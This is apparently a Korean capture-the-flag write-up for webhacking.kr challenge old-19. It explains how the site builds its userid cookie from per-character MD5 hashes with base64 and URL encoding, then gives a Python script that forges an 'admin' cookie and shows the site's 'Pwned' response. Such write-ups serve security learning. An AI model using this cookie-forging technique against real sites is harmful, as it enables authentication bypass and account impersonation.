



# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**




# **Write-Up**

제출 버튼을 눌러보면 admin이 아니라고 한다.



id를 aa로 하고 제출 버튼을 누르면 Cookie로 userid라는 값이 생긴다.


형식을 보면 hash, base64 encoding, url encoding순으로 변환된 값으로 추정된다.



aa의 hash는 0cc175b9c0f1b6a831c399e2697726610cc175b9c0f1b6a831c399e269772661인데 이는 'a'의 MD5값이 2번 이어쓴것과 같다. 즉, 한글자씩 md5 hash 값을 추출한듯 하다.

다음과 같은 python script로 점수를 획득할 수 있다.

```python
import hashlib
import base64
import urllib.request

id      = 'admin'
flag    = ''

for c in id: flag += hashlib.md5(c.encode()).hexdigest()

flag    = base64.b64encode(flag.encode())
flag    = urllib.parse.quote(flag)

url     = 'https://webhacking.kr/challenge/js-6/'
header  = {'Cookie':'PHPSESSID=l7ql6t9himbquio8gdh5s61f22;userid='+flag}
request = urllib.request.Request(url, headers=header)
response= urllib.request.urlopen(request)
print(response.read().decode())

[Output]
<html>
<head>
<title>Challenge 19</title>
<style type="text/css">
body { background:black; color:white; font-size:10pt; }
input { background:silver; color:black; font-size:9pt; }
</style>
</head>
<body>
hello admin<br><script>alert('old-19 Pwned!');</script><hr>old-19 Pwned. You got 15point. Congratz!<hr><input type=button value='logout' onclick=location.href='?logout=1'>
```